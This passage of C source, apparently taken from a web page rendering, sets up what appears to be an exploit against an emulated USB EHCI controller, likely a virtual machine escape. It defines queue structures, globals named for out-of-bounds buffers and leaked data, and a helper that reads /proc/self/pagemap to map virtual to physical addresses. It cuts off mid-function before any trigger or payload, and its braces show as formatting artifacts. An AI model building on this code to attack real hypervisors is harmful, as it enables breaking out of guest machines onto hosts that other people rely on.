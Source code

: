 ```
    uint32_t epcap;

    uint32_t current_qtd;             /* Standard next link pointer */
    uint32_t next_qtd;                /* Standard next link pointer */
    uint32_t altnext_qtd;         

    uint32_t token;                   /* Same as QTD token */
    uint32_t bufptr[5];               /* Standard buffer pointer */

`}` EHCIqh;

typedef struct EHCIqtd `{`
    uint32_t next;                    /* Standard next link pointer */
    uint32_t altnext;                 /* Standard next link pointer */
    uint32_t token;
    uint32_t bufptr[5];               /* Standard buffer pointer */
`}` EHCIqtd;

char *setup_buf;
char *data_buf;
char *data_bufoob;
char *first_leak_data;
char *second_leak_data;

unsigned char* mmio_mem;
char *dmabuf;
uint32_t *entry;
struct EHCIqh *qh;
struct EHCIqtd * qtd;
uint64_t device_addr = 0;
uint64_t func_addr = 0;
uint64_t port_addr = 0;
uint64_t port_ptr = 0;
uint64_t data_buf_addr = 0;


size_t virtuak_addr_to_physical_addr(void *addr)`{`
    uint64_t data;

    int fd = open("/proc/self/pagemap",O_RDONLY);
    if(!fd)`{`
        perror("open pagemap");
        return 0;
    `}`

    size_t pagesize = getpagesize();
    size_t offset = ((uintptr_t)addr / pagesize) * sizeof(uint64_t);

    if(lseek(fd,offset,SEEK_SET) &lt; 0)`{`
        puts("lseek");
        close(fd);
        return 0;
    `}`

    if(read(fd,&amp;data,8) != 8)`{`
        puts("read");
        close(fd);
        return 0;
    `}`

    if(!(data &amp; (((uint64_t)1 &lt;&lt; 63))))`{`
        puts("page");
        close(fd);
```